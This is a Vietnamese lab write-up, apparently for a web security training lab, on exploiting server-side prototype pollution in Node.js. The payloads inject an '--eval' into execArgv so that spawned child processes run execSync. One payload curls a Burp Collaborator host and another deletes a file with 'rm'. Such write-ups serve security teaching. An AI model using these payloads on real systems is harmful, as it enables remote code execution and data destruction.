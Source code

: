 ![image](https://hackmd.io/_uploads/HJawxVSEyg.png)

![image](https://hackmd.io/_uploads/BkxqgNSVye.png)

- Trong trình duyệt, hãy vào bảng quản trị và quan sát thấy có một nút để chạy công việc bảo trì.

![image](https://hackmd.io/_uploads/rJ0b-4SNye.png)

Nhấp vào nút và quan sát rằng điều này kích hoạt các tác vụ nền dọn dẹp cơ sở dữ liệu và hệ thống tệp. Đây là ví dụ điển hình về loại chức năng có thể tạo ra các tiến trình con của nút.

Hãy thử làm ô nhiễm nguyên mẫu bằng một execArgvthuộc tính độc hại để thêm --evalđối số vào tiến trình con được sinh ra. Sử dụng thuộc tính này để gọi execSync()sink, truyền vào một lệnh kích hoạt tương tác với máy chủ Burp Collaborator công khai. Ví dụ:

```javascript
"__proto__": {
    "execArgv":[
        "--eval=require('child_process').execSync('curl https://YOUR-COLLABORATOR-ID.oastify.com')"
    ]
}
```

### Khai thác

- thử làm ô nhiễm nguyên mẫu bằng một execArgvthuộc tính độc hại để thêm --evalđối số vào tiến trình con được sinh ra. Sử dụng thuộc tính này để gọi execSync()sink, truyền vào một lệnh kích hoạt tương tác với máy chủ Burp Collaborator công khai. Ví dụ:

```javascript
"__proto__": {
    "execArgv":[       "--eval=require('child_process').execSync('curl https://rjewso9aui734ss8yyo2ee8w2n8ew9ky.oastify.com')"
    ]
}
```

![image](https://hackmd.io/_uploads/By4GMNHNkg.png)

![image](https://hackmd.io/_uploads/SJ9aWNBN1e.png)

```javascript
child_process.fork(modulePath[, args][, options])
```

- execArgv là một danh sách các arguments (đối số) được truyền vào phương thức để thực thi, và có giá trị mặc định process.execArgv.

```javascript
"__proto__": {
    "execArgv":[       "--eval=require('child_process').execSync('rm /home/carlos/morale.txt')"
    ]
}
```

![image](https://hackmd.io/_uploads/BJZYG4H4yx.png)

